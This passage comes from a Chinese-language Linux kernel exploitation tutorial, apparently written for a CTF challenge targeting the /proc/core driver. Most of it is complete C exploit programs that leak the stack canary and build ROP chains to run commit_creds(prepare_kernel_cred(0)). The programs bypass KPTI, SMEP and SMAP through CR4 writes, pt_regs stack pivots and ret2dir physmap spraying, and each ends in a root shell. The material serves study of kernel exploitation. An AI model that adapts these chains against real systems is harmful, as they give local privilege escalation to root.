    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_copy_func(size_t len) {
    ioctl(core_fd, 0x6677889A, len);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds += offset;
            prepare_kernel_cred += offset;
            init_cred += offset;
            pop_rdi_ret += offset;
            pop_rdx_ret += offset;
            pop_rcx_ret += offset;
            mov_rdi_rax_call_rdx += offset;
            swapgs_restore_regs_and_return_to_usermode += offset;
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

int main() {
    save_status();
    rebase();

    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }

    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);

    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;

    size_t *rop = (size_t *) &buf[80], it = 0;


//    rop[it++] = pop_rdi_ret;
//    rop[it++] = init_cred;
//    rop[it++] = commit_creds;

    rop[it++] = pop_rdi_ret;
    rop[it++] = 0;
    rop[it++] = prepare_kernel_cred;
    rop[it++] = pop_rdx_ret;
    rop[it++] = pop_rcx_ret;
    rop[it++] = mov_rdi_rax_call_rdx;
    rop[it++] = commit_creds;

    rop[it++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    rop[it++] = 0;
    rop[it++] = 0;
    rop[it++] = (size_t) get_shell;
    rop[it++] = user_cs;
    rop[it++] = user_rflags;
    rop[it++] = user_sp;
    rop[it++] = user_ss;

    core_write(buf, sizeof(buf));

    core_copy_func(0xffffffffffff0000 | sizeof(buf));

    return 0;
}
```
##  用 SIGSEGV 绕过 KPTI 
如果找不到 swapgs_restore_regs_and_return_to_usermode，可以提前为 SIGSEGV 注册异常处理函数 get_shell，然后像关闭 KPTI 时那样返回用户态。触发段错误异常后，会自动完成返回用户态的过程。

> signal(SIGSEGV, get_shell); 这一行代码设置了一个信号处理函数：当进程遇到 SIGSEGV（段违例）信号时，就会调用 get_shell 函数。SIGSEGV 信号通常在程序试图访问非法内存地址时由操作系统发出，例如试图读写一个不存在的内存位置。

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <sys/ioctl.h>

size_t prepare_kernel_cred = 0xFFFFFFFF8109CCE0;
size_t commit_creds = 0xFFFFFFFF8109C8E0;
size_t init_cred = 0xFFFFFFFF8223D1A0;
size_t pop_rdi_ret = 0xffffffff81000b2f;
size_t pop_rdx_ret = 0xffffffff810a0f49;
size_t pop_rcx_ret = 0xffffffff81021e53;
size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81A008DA;
size_t iretq = 0xffffffff81050ac2;
size_t swapgs_popfq_ret = 0xffffffff81a012da;

void get_shell() {
    system("/bin/sh");
}

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

int core_fd;

void coore_read(char *buf) {
    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_copy_func(size_t len) {
    ioctl(core_fd, 0x6677889A, len);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds += offset;
            prepare_kernel_cred += offset;
            init_cred += offset;
            pop_rdi_ret += offset;
            pop_rdx_ret += offset;
            pop_rcx_ret += offset;
            mov_rdi_rax_call_rdx += offset;
            iretq += offset;
            swapgs_restore_regs_and_return_to_usermode += offset;
            swapgs_popfq_ret += offset;
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

int main() {
    save_status();
    rebase();
    signal(SIGSEGV, get_shell);

    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }

    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);

    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;

    size_t *rop = (size_t *) &buf[80], it = 0;


//    rop[it++] = pop_rdi_ret;
//    rop[it++] = init_cred;
//    rop[it++] = commit_creds;

    rop[it++] = pop_rdi_ret;
    rop[it++] = 0;
    rop[it++] = prepare_kernel_cred;
    rop[it++] = pop_rdx_ret;
    rop[it++] = pop_rcx_ret;
    rop[it++] = mov_rdi_rax_call_rdx;
    rop[it++] = commit_creds;
    rop[it++] = swapgs_popfq_ret;
    rop[it++] = 0;
    rop[it++] = iretq;
    rop[it++] = 0x12345678;
    rop[it++] = user_cs;
    rop[it++] = user_rflags;
    rop[it++] = user_sp;
    rop[it++] = user_ss;

    core_write(buf, sizeof(buf));

    core_copy_func(0xffffffffffff0000 | sizeof(buf));

    return 0;
}
```
##  用 ROP 设置 CR3 寄存器后像关闭 KPTI 那样返回
在内核提权后返回用户态时绕过 KPTI 的另一种方法是利用内核镜像中已有的 gadget


```c
mov     rdi, cr3
or      rdi, 1000h
mov     cr3, rdi
```

来设置 CR3 寄存器，再按 iretq/sysret 的要求构造好内容，然后返回即可。
# kernel rop + ret2user


先用一个 ROP mov gadget 把 cr4 设为 0x6f0（这个值可以把原始 cr4 的值和 0xFFFFF 相与得到）来关闭 SMEP 和 SMAP，然后 iret 到用户空间执行提权代码。这样同样可以绕过 SMAP 和 SMEP 


此时已开启

通过 pop 后接 mov 来设置 cr4



然后就可以直接跳到用户态代码执行

用户态代码接着执行 `commit_creds(prepare_kernel_cred(0))` 或 `commit_creds(init_cred)`，然后返回用户态并跳到 `system("/bin/sh");`

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/ioctl.h>

#define KERNCALL __attribute__((regparm(3)))

void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xFFFFFFFF8109CCE0;

void *(*commit_creds)(void *) KERNCALL = (void *) 0xFFFFFFFF8109C8E0;

void *init_cred = (void *) 0xFFFFFFFF8223D1A0;
size_t pop_rdi_ret = 0xffffffff81000b2f;
size_t pop_rdx_ret = 0xffffffff810a0f49;
size_t pop_rcx_ret = 0xffffffff81021e53;
size_t mov_cr4_rdi_ret = 0xffffffff81075014;
size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
size_t swapgs_popfq_ret = 0xffffffff81a012da;
size_t iretq = 0xffffffff81050ac2;

void get_shell() { system("/bin/sh"); }

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

void get_root() {
//    commit_creds(init_cred);
    commit_creds(prepare_kernel_cred(0));
}

int core_fd;

void coore_read(char *buf) {
    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_copy_func(size_t len) {
    ioctl(core_fd, 0x6677889A, len);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds = (void *) ((size_t) commit_creds + offset);
            prepare_kernel_cred = (void *) ((size_t) prepare_kernel_cred + offset);
            init_cred = (void *) ((size_t) init_cred + offset);
            pop_rdi_ret += offset;
            pop_rdx_ret += offset;
            pop_rcx_ret += offset;
            mov_rdi_rax_call_rdx += offset;
            swapgs_popfq_ret += offset;
            iretq += offset;
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

int main() {
    save_status();
    rebase();

    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }

    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);

    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;

    size_t *rop = (size_t *) &buf[80], it = 0;


    rop[it++] = pop_rdi_ret;
    rop[it++] = 0x00000000000006f0;
    rop[it++] = mov_cr4_rdi_ret;
    rop[it++] = (size_t) get_root;
    rop[it++] = swapgs_popfq_ret;
    rop[it++] = 0;
    rop[it++] = iretq;
    rop[it++] = (size_t) get_shell;
    rop[it++] = user_cs;
    rop[it++] = user_rflags;
    rop[it++] = user_sp;
    rop[it++] = user_ss;

    core_write(buf, sizeof(buf));

    core_copy_func(0xffffffffffff0000 | sizeof(buf));

    return 0;
}
```
参考博客说这种方法无法绕过 SMAP，但我在这里写了个测试，发现它确实能绕过 SMAP——可以访问用户空间的数据



#  用 pt_regs 构造 kernel ROP
如果溢出受限，只能覆盖返回地址，就需要把栈迁移到别处来构造 ROP 链。可以把 ROP 链构造在 pt_regs 上。

 一次 syscall 会进入 entry_SYSCALL_64，它把所有寄存器压入内核栈，形成一个 pt_regs 结构。这个结构本质上位于内核栈的底部，定义如下：

```c
struct pt_regs {
/*
 * C ABI says these regs are callee-preserved. They aren't saved on kernel entry
 * unless syscall needs a complete, fully filled "struct pt_regs".
 */
    unsigned long r15; //低地址
    unsigned long r14;
    unsigned long r13;
    unsigned long r12;
    unsigned long rbp;
    unsigned long rbx;
/* These regs are callee-clobbered. Always saved on kernel entry. */
    unsigned long r11;
    unsigned long r10;
    unsigned long r9;
    unsigned long r8;
    unsigned long rax;
    unsigned long rcx;
    unsigned long rdx;
    unsigned long rsi;
    unsigned long rdi;
/*
 * On syscall entry, this is syscall#. On CPU exception, this is error code.
 * On hw interrupt, it's IRQ number:
 */
    unsigned long orig_rax;
/* Return frame for iretq */
    unsigned long rip;
    unsigned long cs;
    unsigned long eflags;
    unsigned long rsp;
    unsigned long ss; //高地址
/* top of stack page */
};
```

> 由于内核栈只有一页大小，所以只需要找到一个形如 "add rsp, val ; ret" 的 gadget，然后利用之前设置并压入的寄存器内容来完成 ROP 链

当前 rsp 与 pt_regs 之间的偏移 
 pt_regs 总共 0xa8 字节

**还要注意，pt_regs 中 r11 和 rcx 对应的位置分别被 eflags 和返回地址（被设为 system("/bin/sh")）覆盖，不受我们控制。**
用 add rsp, value 或 pop 指令把 rsp 移到 pt_regs，例如 `add    rsp,0xc8
  pop    rbx pop    rbp   pop    r12   pop    r13  ret` 可以达到加 0xe8 的效果


所以在溢出之前先设置好寄存器；syscall 压入栈底的内容在迁移后作为 ROP 链，然后溢出执行调整 rsp 的 gadget，最后通过之前设置的寄存器进行 ROP
这里用 swapgs_restore_regs_and_return_to_usermode 切换回用户态；需要调整偏移，使执行最终能返回到原来的返回地址 `system("/bin/sh")`


```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ioctl.h>

size_t prepare_kernel_cred = 0xFFFFFFFF8109CCE0;
size_t commit_creds = 0xFFFFFFFF8109C8E0;
size_t init_cred = 0xFFFFFFFF8223D1A0;
size_t pop_rdi_ret = 0xffffffff81000b2f;
size_t add_rsp_0xe8_ret = 0xffffffff816bb966;
size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81A008DA;

int core_fd;

void coore_read(char *buf) {
    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds += offset;
            prepare_kernel_cred += offset;
            init_cred += offset;
            pop_rdi_ret += offset;
            add_rsp_0xe8_ret += offset;
            swapgs_restore_regs_and_return_to_usermode += offset + 8;
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

int main() {
    rebase();

    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }

    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);

    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;
    *(size_t *) &buf[80] = add_rsp_0xe8_ret;

    core_write(buf, sizeof(buf));

    __asm__(
            "mov r15, pop_rdi_ret;"
            "mov r14, init_cred;"
            "mov r13, commit_creds;"
            "mov r12, swapgs_restore_regs_and_return_to_usermode;"
            "mov rbp, 0x5555555555555555;"
            "mov rbx, 0x6666666666666666;"
            "mov r11, 0x7777777777777777;"
            "mov r10, 0x8888888888888888;"
            "mov r9, 0x9999999999999999;"
            "mov r8, 0xaaaaaaaaaaaaaaaa;"
            "mov rcx, 0xbbbbbbbbbbbbbbbb;"
            "mov rax, 16;"
            "mov rdx, 0xffffffffffff0058;"
            "mov rsi, 0x6677889A;"
            "mov rdi, core_fd;"
            "syscall"
            );

    system("/bin/sh");

    return 0;
}
```
# ret2dir
physmap 是内核管理的一块非常大的连续虚拟内存空间。为了提高效率，这块空间中的地址直接映射到 RAM 地址。RAM 比 physmap 小得多，这意味着任意一个 RAM 地址在 physmap 中都有一个对应的虚拟内存地址。另一方面，我们知道用户空间的虚拟内存也映射到 RAM。于是就出现了这样一种情况：两个虚拟内存地址（一个在 physmap，一个在用户空间）映射到同一个 RAM 地址。也就是说，我们在用户空间创建的数据和代码很可能被映射到了 physmap 空间。基于这一理论，在用户空间用 mmap() 把提权代码映射到内存，然后在 physmap 中找到它对应的副本，再修改 EIP 跳到该副本执行。由于 physmap 本身在内核空间，所以 SMAP 和 SMEP 都不起作用。

> 在较新的内核中，直接映射区不再具有可执行权限，所以我们很难直接在用户空间放置 shellcode 来利用。不过，我们仍然可以通过在用户空间放置 ROP 链来完成利用，即把 rsp 改成 physmap 中的某个偏移，然后 ret


通俗地说，就是可以在某个内核地址处找到一块由用户态控制的内存

1.  mmap 大量内存（ROP 链等）以提高命中概率
用 mmap 一页一页地分配；除了放在末尾的 ROP 链，前面的部分都填上 ret 的地址
2. 泄露某个 slab 的地址并计算 physmap 地址（开启 KASLR 时，physmap 地址是随机化的）
3. 把内核执行流劫持到 physmap 上
	先把栈迁移到 pt_regs，然后用 `pop rsp ret ` 把栈迁移到 physmap 上


```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>

size_t try_hit = 0xffff880000000000 + 0x7000000;
size_t prepare_kernel_cred = 0xFFFFFFFF8109CCE0;
size_t commit_creds = 0xFFFFFFFF8109C8E0;
size_t init_cred = 0xFFFFFFFF8223D1A0;
size_t pop_rdi_ret = 0xffffffff81000b2f;
size_t pop_rsp_ret = 0xffffffff81001689;
size_t add_rsp_0xe8_ret = 0xffffffff816bb966;
size_t ret = 0xFFFFFFFF8100168A;
size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81A008DA;
size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

void get_shell() { system("/bin/sh"); }

int core_fd;

void coore_read(char *buf) {
    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds += offset;
            prepare_kernel_cred += offset;
            init_cred += offset;
            pop_rdi_ret += offset;
            add_rsp_0xe8_ret += offset;
            pop_rsp_ret += offset;
            ret += offset;
            swapgs_restore_regs_and_return_to_usermode += offset;
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

void physmap_spray() {
    size_t page_size = sysconf(_SC_PAGESIZE);
    size_t *rop = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    int it = 0;
    for (; it < (page_size / 8 - 11); it++) {
        rop[it] = ret;
    }
    rop[it++] = pop_rdi_ret;
    rop[it++] = init_cred;
    rop[it++] = commit_creds;
    rop[it++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    rop[it++] = 0;
    rop[it++] = 0;
    rop[it++] = (size_t) get_shell;
    rop[it++] = user_cs;
    rop[it++] = user_rflags;
    rop[it++] = user_sp;
    rop[it++] = user_ss;
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 30000; i++) {
        void *page = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        memcpy(page, rop, page_size);
    }
}

int main() {
    rebase();
    save_status();
    physmap_spray();

    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }

    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);

    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;
    *(size_t *) &buf[80] = add_rsp_0xe8_ret;

    core_write(buf, sizeof(buf));

    __asm__(
            "mov r15, pop_rsp_ret;"
            "mov r14, try_hit;"
            "mov r13, 0x3333333333333333;"
            "mov r12, 0x4444444444444444;"
            "mov rbp, 0x5555555555555555;"
            "mov rbx, 0x6666666666666666;"
            "mov r11, 0x7777777777777777;"
            "mov r10, 0x8888888888888888;"
            "mov r9, 0x9999999999999999;"
            "mov r8, 0xaaaaaaaaaaaaaaaa;"
            "mov rcx, 0xbbbbbbbbbbbbbbbb;"
            "mov rax, 16;"
            "mov rdx, 0xffffffffffff0058;"
            "mov rsi, 0x6677889A;"
            "mov rdi, core_fd;"
            "syscall;"
            );

    system("/bin/sh");

    return 0;
}
```
